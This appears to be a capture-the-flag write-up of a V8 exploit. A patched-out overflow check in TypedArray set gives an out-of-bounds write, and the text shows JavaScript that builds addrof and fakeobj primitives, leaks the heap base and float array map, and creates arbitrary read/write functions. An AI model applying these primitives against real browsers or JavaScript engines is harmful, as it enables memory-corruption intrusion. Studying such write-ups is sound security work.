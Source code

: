 This function will be called if we want to set a TypedArray within a TypedArray in Javascript. From the patch, it comments out a overflow check when `srcLength` plus `targetOffset` is larger than `targetLength` ( see the following Javascript for example ). If the patch was not introduced, it will throw an exception when we want to set a TypedArray larger than the src TypedArray. But because of this patch, we can bypass the overflow check and set the array with index 9 as the starting position. It's actually a very powerful out-of-bound write, and we use this vulnerability to overwrite `uint32`'s length to make us use this `uint32` to achieve out-of-bound read/write.


```javascript
const uint32 = new Uint32Array([0x1000]);
oob_access_array = [uint32];
var f64 = new Float64Array([1.1]);
uint32.set(uint32, 9);
console.log(uint32.length); // 0x1000

```

Because we allocate a Javascript `Array` after `TypedArray`, we can also modify its element as `Integer` from `uint32`. We use it to create a primitive function `addrof` by placing the object in `oob_access_array` and get its address from `uint32` at index 0x15. Another primitive function `fakeobj` is done by placing the arbitrary address at index 0x15 of `uint32` and get fake object from `oob_access_array`.


```javascript
function addrof(in_obj) {
    oob_access_array[0] = in_obj;
    return uint32[0x15];
}
function fakeobj(addr) {
    uint32[0x15] = addr;
    return oob_access_array[0];
}


```

We also leak `float_array_map` from `uint32` at index 62 and V8 heap base address from `uint32` at index 12. With `float_array_map` we can create a fake float array for arbitrary address read/write. With V8 heap base, we can read some useful content using arbitrary read/write on V8 heap.


```javascript
var float_array_map = uint32[62];
if (float_array_map == 0x3ff19999)
    float_array_map = uint32[63];

var arr2 = [itof(BigInt(float_array_map)), itof(0n), itof(8n), itof(1n), itof(0x1234n), 0, 0].slice();
var fake = fakeobj(addrof(arr2) - 0x38);
var v8_heap = BigInt(uint32[12]) << 32n;

function arbread(addr) {
    arr2[5] = itof(addr);
    return ftoi(fake[0]);
}

function arbwrite(addr, val) {
    arr2[5] = itof(addr);
    fake[0] = itof(val);
}

```
